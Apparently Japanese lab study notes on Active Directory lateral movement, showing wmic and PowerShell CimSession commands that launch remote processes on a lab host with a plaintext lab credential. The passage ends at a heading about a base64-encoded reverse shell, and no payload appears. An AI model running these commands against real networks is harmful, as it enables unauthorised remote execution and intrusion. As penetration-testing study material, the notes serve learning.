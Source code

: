 ## Active Drirectory横展開

**WMI経由でリモートターゲット上にプロセスを作成するには、Administratorローカルグループのメンバーの資格情報が必要**  
以下はCLIENT74にjeffとして接続する例:  

```
正常にプロセスが作成された場合は0を返す

C:\Users\jeff>wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"

Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 752;
        ReturnValue = 0;
};
```

#### PSCredentialオブジェクトを作成してセッションのユーザーとパスワードを保存する

```
PSCredentialオブジェクトを作成する
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

新しいCimSessionの作成
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

#### WMI PowerShellペイロードの実行

```
PS C:\Users\jeff> $username = 'jen';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

ターゲットマシン上のタスクマネージャーの詳細にwin32calc.exeとして実行されていることを確認する  

#### リバースシェルで横展開を実行する

以下のペイロードをbase64でエンコードして実行することでリバースシェルを実行できる
